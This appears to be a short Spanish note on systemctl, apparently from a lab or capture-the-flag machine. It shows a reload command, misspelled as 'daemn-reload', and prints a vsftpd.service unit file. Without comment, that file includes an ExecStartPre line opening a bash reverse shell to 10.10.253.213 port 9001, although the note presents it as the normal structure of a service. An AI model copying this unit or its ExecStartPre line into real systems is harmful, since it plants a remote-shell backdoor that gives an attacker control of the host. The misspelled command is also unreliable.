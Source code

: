 # Systemctl


## Reiniciar los deamonds

```bash
systemctl daemn-reload
```

## Estructura de un servicio

```bash
drac@ide:/lib/systemd/system$ cat vsftpd.service 
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.253.213/9001 0>&1"

[Install]
WantedBy=multi-user.target
drac@ide:/lib/systemd/syste
```
